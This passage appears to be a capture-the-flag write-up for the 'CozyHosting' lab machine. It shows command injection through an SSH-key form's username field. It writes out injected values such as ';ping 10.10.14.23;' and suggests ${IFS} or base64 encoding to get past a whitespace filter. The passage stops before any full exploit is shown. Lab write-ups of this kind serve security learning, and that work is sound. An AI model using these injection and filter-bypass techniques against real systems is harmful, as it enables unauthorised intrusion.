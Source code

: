There is a form at the end of the page :

![[assets/form.png]]

The note :

```json
For Cozy Scanner to connect the private key that you received upon registration should be included in your host's .ssh/authorised_keys file.
```

This is a for to add some SSH keys.

We can test this form, and we can notice an error condition :

* Hostname = `localhost` (or anything)
* username = `<empty>`

in burpsuite :

![[assets/error.png]]

So this form is used to call ssh system command, and there is a sanitation issue we could use.

Since this is a linux command shell, we can try to mess this command line :

* with username = “;name” :

```json
Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]/bin/bash: line 1: uname@127.0.0.1: command not found
```

especially :

```text
/bin/bash: line 1: uname@127.0.0.1: command not found
```

also with a ping command :

* username : “;ping 10.10.14.23;”

```
Location: http://cozyhosting.htb/admin?error=Username can't contain whitespaces!
```

Payload is probably good, but must not contain spaces ….

[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

We could use ${IFS} to replace spaces, but also we can encode the payload with base64 (usefull to bypass filters).

Let's give a try !
